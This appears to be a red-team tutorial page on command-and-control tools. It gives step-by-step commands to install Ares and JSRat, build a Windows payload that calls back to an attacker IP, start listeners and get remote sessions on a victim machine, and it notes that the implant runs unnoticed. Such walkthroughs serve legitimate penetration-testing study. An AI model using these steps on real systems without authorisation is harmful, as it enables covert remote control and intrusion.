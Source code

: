 # Red Teaming Squad : Command & Control

Command and control (C2) systems are used to manage remote sessions from compromised hosts. From a command and control program interface, a security tester or attacker can send commands directly from the program or access a remote shell. During a penetration test, a security tester can deploy a remote access terminal (RAT) on a compromised host that dials back to a command and control server.


## C2 with Web Interface : Ares

Ares is a Python Remote Access Tool and is made of two main programs:
1. A command and control server, which is a Web interface to administer the agents
2. An agent program, which is run on the compromised host, and ensures communication with the CNC


### Installation

You can install "Ares" using following command:

```
git clone https://github.com/sweetsoftware/Ares
cd Ares
pip install -r requirements.txt
./wine_setup.sh
```

### Usage

First of all you have to change the server address to attacker's IP address.

<kbd>![](Command_&_Control/1.png)</kbd>

Now create payload(exe file because target system is windows) using ```./builder.py -p Windows --server http://192.168.43.250:8080 -o temp.exe``` command and transfer the payload to victim's machine.

<kbd>![](Command_&_Control/2.png)</kbd>

Now initiate the server database using ```./ares.py initdb``` and then start the server using ```./ares.py runserver -h 192.168.43.250 -p 8080 --threaded``` command.

<kbd>![](Command_&_Control/3.png)</kbd>

Access the web server through browser.

<kbd>![](Command_&_Control/4.png)</kbd>

Run the payload.

<kbd>![](Command_&_Control/5.png)</kbd>

Observe the session on server.

<kbd>![](Command_&_Control/6.png)</kbd>

Now attacker can interact with target machine through the web interface.

<kbd>![](Command_&_Control/7.png)</kbd>

One of the benefit of ares tool is that victim won't notice that any unwanted application is running on his/her machine. If victim checks the running processes then he/she will find the exe file running on the machine. 

<kbd>![](Command_&_Control/8.png)</kbd>

For more use cases, you can use ```./builder.py --help``` command or you can visit this [URL](https://github.com/sweetsoftware/Ares).


## C2 with Javascript : JSRat

This tool is developed in JavaScript. It allows the payload to connect to the listening server. These features were created in python which allows the server to be both Linux and Windows friendly. The basic protocol used is HTTP for the server to work.


### Installation

You can install "Ares" using following command:

```
git clone https://github.com/Hood3dRob1n/JSRat-Py
```

<kbd>![](Command_&_Control/9.png)</kbd>

### Usage

First of all you have to start the server at attacker's IP address using ```./JSRat.py -i 192.168.43.250 -p 4545```.

<kbd>![](Command_&_Control/10.png)</kbd>

You can find these files by accessing the server from your or victim’s browser. If you look closely, there is a code given on the server. This code allows you to execute a rundll attack. Copy this code and paste it in the command prompt of the victims’ PC.

<kbd>![](Command_&_Control/11.png)</kbd>

As soon as the command is executed you will have a session.

<kbd>![](Command_&_Control/12.png)</kbd>

Now you can run any commands on victim's machine.

<kbd>![](Command_&_Control/13.png)</kbd>

For more use cases, you can use ```./JSRat.py --help``` command or you can visit this [URL](https://github.com/Hood3dRob1n/JSRat-Py).
